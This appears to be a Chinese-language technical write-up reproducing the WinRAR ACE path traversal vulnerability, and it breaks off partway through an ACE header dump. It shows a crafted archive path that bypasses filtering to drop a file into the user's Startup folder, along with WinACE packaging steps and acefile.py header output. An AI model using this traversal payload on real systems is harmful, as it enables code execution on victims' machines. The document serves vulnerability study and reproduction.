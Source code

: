 > 在普通用户权限下：
>
> 会将文件默认释放到 
>
> 用户启动目录（”C:\Users\<user name>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
>
> 而不是
>
> 系统启动目录（”C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”）
>
> 定向的账户攻击就可能需要对目标进行登录用户名信息搜集
>
> 而常规的直接下载到桌面或针对用户名下目录的则没有这个问题

fuzz作者构造的攻击payload

```
构造路径：C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
最终解释路径：C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe

采用的是绕过过滤的方法。
在解释道最终路径后
../会返回到 user folder 
并连接  AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\ 目录
直接拼接出自启动项的路径。
```

**[攻击复现：](https://fuping.site/2019/02/21/WinRAR-Extracting-Code-Execution-Validate/)**

1. **制作投递payload**

   这里用简单的TXT文件来当做投递pyload 

   ```cmd
   echo AAAAAAAAAA >> TESTPAYLOD.txt
   ```

2. **进行ACE压缩**，选用 [`WinACE`](https://web.archive.org/web/20170714193504/http:/winace.com:80/)工具压缩。选择 保存 压缩全路径 stroe full path

3. **进行数据格式对照**，提供了一个ACE格式解析脚本 [acefile.py](https://github.com/droe/acefile/blob/master/acefile.py)（py3版本），使用python acefile.py  --headers  xxx.ace 来获取文件头信息

   ```cmd
   C:\Users\c\Desktop>python acefile.py --headers TESTPAYLOD.
   volume
       filename    TESTPAYLOD.ace
       filesize    132
       headers     MAIN:1 FILE:1 others:0
   header
       hdr_crc     0x45b5
       hdr_size    49
       hdr_type    0x00        MAIN
       hdr_flags   0x9000      ADVERT|SOLID
       magic       b'**ACE**'
       eversion    20          2.0
       cversion    20          2.0
       host        0x02        Win32
       volume      0
       datetime    0x4e5b546f  2019-02-27 10:35:30
       reserved1   e8 03 5d e6 00 00 00 00
       advert      b'*UNREGISTERED VERSION*'
       comment     b''
       reserved2   b''
   header
       hdr_crc     0x1ce9
       hdr_size    62
       hdr_type    0x01        FILE32
       hdr_flags   0x8001      ADDSIZE|SOLID
   ```